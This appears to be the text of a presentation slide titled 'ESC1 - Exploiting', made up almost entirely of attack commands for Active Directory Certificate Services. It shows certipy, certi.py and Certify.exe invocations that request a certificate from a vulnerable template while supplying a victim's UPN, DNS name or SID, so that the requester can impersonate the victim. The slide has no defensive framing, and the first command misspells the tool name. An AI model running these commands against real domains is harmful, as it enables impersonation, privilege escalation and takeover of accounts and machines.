

# ESC1 - Exploiting
ceritpy req -u USER@DOMAIN -p PASS -ca CA_NAME -target CA_DNS -template TEMPLATE -subject VICTIM
certipy req -u USER@DOMAIN -p PASS -ca CA_NAME -target CA_DNS -template TEMPLATE -upn USER_VICTIM -dns MACHINE_VICTIM

python3 certi.py req DOMAIN/USER:PASS@CA CA_NAME -t TEMPLATE -a VICTIM

certify.exe request /ca:IP(OR DNS)\CA_NAME /template:TEMPLATE /altname:VICTIM /sidextension:VICTIMSID